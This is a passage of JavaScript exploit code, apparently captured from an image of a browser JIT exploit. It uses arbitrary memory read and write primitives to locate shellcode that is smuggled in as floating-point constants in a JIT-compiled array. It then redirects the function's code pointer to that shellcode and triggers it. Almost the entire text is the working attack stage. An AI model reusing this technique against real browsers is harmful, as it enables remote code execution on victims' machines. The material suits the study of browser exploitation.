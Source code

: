 ```js
  console.log(code.toString(16));

  /* search for shellcode */
  let needle = ftoi(6.373461550595519e-155);
  let cur, found;
  /* not sure about the offset, but (-1000, 0] seems to work most of the time */
  for (let off = 0n; off < 0x1000n; off++) {
    cur = aar(code-off);
    if (cur === needle) {
      found = code-off;
      break;
    }
  }
  if (!found) {
    console.log('not found :(');
  } else {
    aaw(aar(leak+0x28n), found);
    console.log(`[+] found! at 0x${found.toString(16)}`);
    dumpValue(jit);
  }

  /* trigger shellcode */
  jit();
}

/* jit */
const jit = () => {
  let arr = [
    0, /* padding so that the remaining instructions are equally spaced */
    6.373461550595519e-155,
    6.376239429872707e-155,
    6.4245912181429175e-155,
    6.372148572841551e-155,
    6.484345289389636e-155,
    6.297580585455249e-155,
    6.4679554275950934e-155,
    6.297581446886613e-155,
    6.4746428566313055e-155,
    6.4245927695300175e-155
  ];
  return [inIon(), arr];
}

for (let i = 0; i < 100000; i++) {
  if (jit()[0]) {
    console.log(i);
    break;
  }
}

exp();

EOF
```
